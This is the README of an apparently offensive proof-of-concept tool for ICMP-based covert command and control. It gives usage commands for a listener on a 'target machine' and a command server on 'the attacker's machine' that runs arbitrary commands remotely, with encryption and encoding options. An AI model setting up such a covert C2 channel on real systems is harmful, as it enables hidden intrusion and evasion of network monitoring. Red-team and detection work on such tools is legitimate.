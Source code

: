 ```markdown
# ICMP C2 Command and Control System

This repository contains a proof-of-concept (PoC) ICMP-based Command and Control (C2) system for covert communication and remote command execution. The system consists of two main components: the ICMP C2 Command Server and the ICMP C2 Listener. Note that the attacker must know the IP address of the remote machine to establish communication.

## Features

- ICMP-based Communication
- Data Encoding (base64, hex)
- Data Compression
- Symmetric Encryption
- Chunked Data Transmission
- Cross-Platform

## Requirements

- Python 3.6+
- Scapy: `pip install scapy`
- Cryptography: `pip install cryptography`

## Usage

### ICMP C2 Listener

Start the listener on the target machine with various options:

```sh
# Basic usage
python3 icmp_listener.py -i eth0

# With encryption and specific ICMP ID
python3 icmp_listener.py -i eth0 --icmp-id 13170 --encrypt --key your_encryption_key

# With compression and hex encoding
python3 icmp_listener.py -i eth0 --compress --encoding hex
```

### ICMP C2 Command Server

Start the command server on the attacker's machine, replacing `192.168.1.100` with the actual IP address of the target machine:

```sh
# Basic usage
python3 icmp_command_server.py -i eth0 -d 192.168.1.100

# With encryption and specific TTL
python3 icmp_command_server.py -i eth0 -d 192.168.1.100 --ttl 128 --encrypt --key your_encryption_key

# With base64 encoding and chunk size
python3 icmp_command_server.py -i eth0 -d 192.168.1.100 --encoding base64 --chunk-size 300
```

## Example Commands

- `exit`: Exit the C2 Command.
- `help`: Show this help message.
- `<any command>`: Execute the specified command on the target.





## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
```
